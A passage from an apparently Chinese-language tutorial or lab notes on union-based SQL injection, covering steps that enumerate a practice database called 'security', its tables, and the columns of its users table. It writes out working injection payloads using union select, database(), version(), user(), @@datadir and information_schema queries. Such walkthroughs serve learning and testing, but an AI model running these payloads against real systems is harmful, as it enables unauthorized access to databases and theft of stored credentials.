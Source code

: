 ```select * from [某个表] where id = [参数] limit 0,1;```
`id=-2' union select 1,2,3 --+`
出现报错位，分别为2，3

![image-20220114191627487](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114191627487.png)



**步骤6：**

开始刺探内部内容
id=-2' union select 1,database(),3 --+
输出数据库库名

输出库名为security

```
version()   #查看数据库版本号
user()     #查看用户
@@datadir  #查看物理路径，从而看到使用的操作系统
```



#### 数据库的小知识：

```
information_schema是自带的，相当于数据库户口本
information_schema的tables保存着所有数据库库名和表名的对应关系
information_schema的columns保存着库名--表名--列名所有对应关系
```

因此上述可修改为：

`id=-2' union select 1,table_name,3 from information_schema.tables where table_schema='security' limit 0,1 --+`
修改limit后面的参数即可得：
emails
referers
uagents
users

`id=-2' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+`

![image-20220114192623865](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114192623865.png)




**步骤7：**

查询表中的列
`id=-2' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users' --+`

发现:id,username,password

![image-20220114192722372](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114192722372.png)



```